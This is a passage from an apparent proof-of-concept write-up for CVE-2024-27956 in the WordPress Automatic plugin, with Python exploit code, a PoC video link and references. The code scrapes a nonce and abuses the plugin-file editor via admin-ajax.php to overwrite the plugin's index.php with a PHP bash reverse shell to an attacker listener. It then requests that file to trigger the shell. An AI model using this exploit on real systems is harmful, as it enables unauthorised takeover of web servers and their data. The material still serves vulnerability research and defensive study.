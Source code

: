 ```python=
for line in r:
    if 'input type="hidden" id="nonce" name="nonce' in line:
        break
line = line.split(' ')
nonce = line[4].replace('value="','').replace('"','')

# Use the `nonce` we just found to upload the shell
# You can change payload_data["newcontent"] to another PHP shell if you want
upload_url = domain + "/wp-admin/admin-ajax.php"
payload_data = {"nonce": "e8876343e3", "_wp_http_referer": "/wordpress/wp-admin/plugin-editor.php?file=wp-automatic%2Findex.php&plugin=wp-automatic%2Fwp-automatic.php", "newcontent": "<?php \nexec(\"/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1414 0>&1'\");\n?>", "action": "edit-theme-plugin-file", "file": "wp-automatic/index.php", "plugin": "wp-automatic/wp-automatic.php", "docs-list": ''}
payload_data["nonce"] = nonce
payload_data["newcontent"] = "<?php \nexec(\"/bin/bash -c 'bash -i >& /dev/tcp/" + listenIP + "/" + listenPort + " 0>&1'\");\n?>"

r = session.post(upload_url, data=payload_data)


## Visit the link to get the shell
shell_url = "http://localhost:80/wordpress/wp-content/plugins/wp-automatic/index.php"
print("Reverse shell is sending")
r = requests.get(shell_url, headers=headers)
print("Shell is closed")
```

## POC Video clip

https://drive.google.com/file/d/1KZlFzB7NjET7A7xZd2NfRlL0vufQyF1M/view?usp=sharing

## References:
- https://github.com/truonghuuphuc/CVE-2024-27956/tree/main
- https://twitter.com/MrTuxracer/status/1784229071460692232?ref_src=twsrc%5Egoogle%7Ctwcamp%5Eserp%7Ctwgr%5Etweet
- https://patchstack.com/articles/critical-vulnerabilities-patched-in-wordpress-automatic-plugin/
- https://thereviewhive.blog/wp-automatic-plugin-patch-now-for-critical-flaw-cve-2024-27956/
- https://secnhack.in/upload-shell-on-wordpress-site/
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

